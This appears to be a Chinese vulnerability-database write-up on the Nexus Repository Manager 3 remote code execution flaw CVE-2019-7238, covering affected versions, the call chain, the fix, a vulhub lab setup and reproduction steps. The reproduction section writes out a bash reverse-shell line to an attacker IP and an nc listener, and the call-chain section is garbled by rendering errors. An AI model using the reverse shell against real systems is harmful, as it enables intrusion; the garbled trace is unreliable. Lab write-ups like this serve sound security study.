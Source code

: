 ```yaml
---
title: 'Nexus Repository Manager 3 远程代码执行漏洞CVE-2019-7238'
date: Wed, 09 Sep 2020 12:06:49 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响版本

Nexus Repository Manager OSS/Pro 3.6.2 版本到 3.14.0 版本

Nexus Repository Manager 3  是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。



# 漏洞成因

\###由于未授权访问的用户可以构造请求而造成任意代码执，触发流程如下：

ExtDirectModuleKaTeX parse error: Expected 'EOF', got '#' at position 14: configure:60 #̲ 路由绑定与请求解析 ExtD…doPost:155 # 处理post请求
 DirectJNgineServletKaTeX parse error: Expected 'EOF', got '#' at position 12: doPost:595 #̲ 根据不同的Content-T…processRequest:632 # 解析json请求
 JsonRequestProcesorKaTeX parse error: Expected 'EOF', got '#' at position 13: process:119 #̲ 解析json语法树 Json…getIndividualJsonRequests:216 # 提取json数据
 JsonRequestProcesorKaTeX parse error: Expected 'EOF', got '#' at position 13: process:133 #̲ 构造返回结构 Compone…previewAssets:188 # 解析post包中的data数据并构造查询语句查询包
 ComponentComponentKaTeX parse error: Expected 'EOF', got '#' at position 19: …viewAssets:208 #̲ 获得查询结果 BrowseS…previewAssets:252 # 构建OrientDb查询语句
 BrowseServiceImplKaTeX parse error: Expected 'EOF', got '#' at position 19: …viewAssets:258 #̲ 拼接查询语句 BrowseS…previewAssets:262 # 执行查询
 MetadataNodeEntityAdapterKaTeX parse error: Expected 'EOF', got '#' at position 18: …untByQuery:221 #̲ 执行OrientDb查询语句…execute:125 # 提取jexl表达式
 ContextExpressionFunction$checkJexlExpression:15

# 修复方法

目前官方已经发布新版本修改了该漏洞，建议您参照上述【安全版本】升级到对应的最新版本。

最新版本下载链接：

https://help.sonatype.com/repomanager3/download

# 环境搭建

1.在centos 7 上安装docker和docker-compose

```
(1).安装PIP
curl -s https://bootstrap.pypa.io/get-pip.py | python3
(2).安装docker
curl -s https://get.docker.com/ | sh
(3).启动docker服务
service docker start
123456
```

![在这里插入图片描述](Nexus Repository Manager 3 远程代码执行漏洞CVE-2019-7238/20190717172404779.png)

```
(4).安装docker compose
pip install docker-compose
12
```

2.使用方法

```
(1).下载漏洞环境项目
git clone https://github.com/vulhub/vulhub.git
(2).进入到nexus利用环境
cd vulhub/nexus/CVE-2019-7238
(3).编译环境
docker-compose build
123456
```

![在这里插入图片描述](Nexus Repository Manager 3 远程代码执行漏洞CVE-2019-7238/20190717172424412.png)

```
(4).执行如下命令启动Nexus Repository Manager 3.14.0
docker-compose build
12
```

# 漏洞复现

1.进入到CVE-2019-7238目录
 cd CVE-2019-7238
 2.修改cve-2019-7238.py.这里根据实际情况来修改remote = ‘ http://192.168.1.144:8081 （存在漏洞的主机ip地址）‘和 ARCH = “ LINUX ”的值，浏览器中访问http://192.168.1.144:8081,如下图所示：
 ![在这里插入图片描述](Nexus Repository Manager 3 远程代码执行漏洞CVE-2019-7238/20190717172508522.png)

3.在攻击者系统中执行cve-2019-7238.py脚本，然后输入反弹NC的bash（此处的IP地址是攻击者的ip地址，即192.168.1.165，端口任意）
 bash -i >& /dev/tcp/192.168.1.165/2333 0>&1
 ![在这里插入图片描述](Nexus Repository Manager 3 远程代码执行漏洞CVE-2019-7238/20190717172520168.png)
 4.在攻击者系统中执行NC监听反弹（在攻击机上执行反弹shell，即在192.168.1.165机器上）
 nc -lvvp 2333
 ![在这里插入图片描述](Nexus Repository Manager 3 远程代码执行漏洞CVE-2019-7238/20190717172539618.png)

\#参考链接：